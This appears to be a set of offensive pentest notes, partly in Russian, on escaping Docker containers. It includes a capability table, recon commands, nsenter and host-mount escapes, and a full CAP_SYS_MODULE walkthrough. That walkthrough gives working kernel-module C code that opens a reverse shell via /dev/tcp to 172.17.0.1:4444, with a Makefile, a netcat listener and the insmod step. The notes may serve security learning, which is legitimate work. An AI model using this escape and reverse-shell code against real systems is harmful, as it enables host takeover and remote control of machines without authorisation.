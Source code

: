 # Docker Escape

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

| **ID** | **Techniques Name**              | **Minimal Linux Capabilities**   |
| ------ | -------------------------------- | -------------------------------- |
| 1      | Mount the host filesystem        | SYS\_ADMIN                       |
| 2      | Use a mounted docker socket      | No capability is required        |
| 3      | Process Injection                | SYS\_PTRACE                      |
| 4      | Adding a malicious kernel module | SYS\_MODULE                      |
| 5      | Reading secrets from the host    | DAC\_READ\_SEARCH                |
| 6      | Overriding files on host         | DAC\_READ\_SEARCH, DAC\_OVERRIDE |
| 7      | Abusing notify on release        | SYS\_ADMIN, DAC\_OVERRIDE        |

### Recon <a href="#privileged--hostpid" id="privileged--hostpid"></a>

Once we are in the container, we can perform capability discovery to determine which privileges are allowed in the container. The container capabilities can be viewed by reading the content of the main container process (PID = 1) status from within the container:&#x20;

```bash
root@2416b7f009ee:/proc grep Cap /proc/1/status
CapInh: 00000000a80425fb
CapPrm: 00000000a80425fb
CapEff: 00000000a80425fb
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000
```

* `CapInh` — Inheritable capabilities (унаследованные привилегии).
* `CapPrm` — Permitted capabilities (разрешенные привилегии).
* `CapEff` — Effective capabilities (эффективные привилегии).
* `CapBnd` — Bounding capabilities (ограничивающие привилегии).
* `CapAmb` — Ambient capabilities (окружающие привилегии).

**Decode**:

```bash
capsh --decode=00000000a80425fb
```

### Privileged + hostPID <a href="#privileged--hostpid" id="privileged--hostpid"></a>

With these permissions you can just **move to the namespace of a process running in the host as root** like init (pid:1) just running:&#x20;

`nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

### Docker socket

```sh
#default path to docker socket
ls -la /var/run/docker.sock

#search sockets
find / -name "*.sock"
```

### Arbitrary Mounts

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### Побег из контейнера используя CAP\_SYS\_MODULE

Создадим два файла: `reverse_shell.c` и `Makefile`

Содержимое файла `reverse_shell.c`:

```c
#include <linux/kmod.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
static char command[50] = "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1";
char* argv[] = {"/bin/bash","-c", command, NULL};
static char* envp[] = {"HOME=/",NULL};
static int __init connect_back_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit connect_back_exit(void){
printk(KERN_INFO "Exiting\n");
}
module_init(connect_back_init);
module_exit(connect_back_exit);

MODULE_LICENSE("GPL");
```

**Большое пояснение**&#x20;

_Данный модуль ядра вызывает программу пространства пользователя /bin/bash из ядра с помощью call\_usermodehelper. argv — это список аргументов в массиве. Первый элемент — это программа (/bin/bash), которое мы хотим выполнить, и за ней следует список аргументов. Последний элемент является терминатором NULL, который указывает на конец списка._

_envp — следующая необходимая переменная. Это массив окружения, представляющий собой список параметров, определяющий среду выполнения для приложения пользовательского пространства. В этом примере мы определили один параметр HOME для оболочки, и этот список заканчивается терминирующей записью NULL, как и argv._

_Последний аргумент call\_usermodehelper — UMH\_WAIT\_EXEC. Это необходимо для того, чтобы указать, что запрашивающий хочет дождаться запуска приложения пользовательского пространства, но не завершить его._

_Наконец, мы используем IP-адрес 172.17.0.1 в качестве IP-адреса прослушивателя, поэтому этот модуль попытается сделать обратное подключение к этому IP-адресу через порт 4444. Данный ip-адрес может отличаться, но в моем случае это 172.17.0.1. Проверить ваш ip-адрес интерфейса docker0 можно командой ip a или ifconfig docker0._

**Конец большого пояснения**

Содержимое `Makefile`:

```
test@test:~/revershell_module$ cat Makefile 
obj-m += reverse_shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Запустите команду make в репозитории, на выходе вы должны получить .ko файл.

Запустите контейнер с --privileged флагом в deteached режиме и скопируйте туда .ko файл:

```bash
docker run --privileged -itd alpine
test@test:~/revershell_module$ docker cp  reverse_shell.ko friendly_elion:.
Preparing to copy...
Copying to container - 32.77kB
Copying to container - 64.51kB
Successfully copied 64.51kB to friendly_elion:.
```

Запустите еще один терминал и начните прослушивание на порту 4444 с помощью утилиты netcat:

```bash
nc -lvp 4444 Listening on 0.0.0.0 4444
```

А теперь самое время загрузить наш модуль ядра внутри контейнера :)

```bash
insmod reverse_shell.ko
```
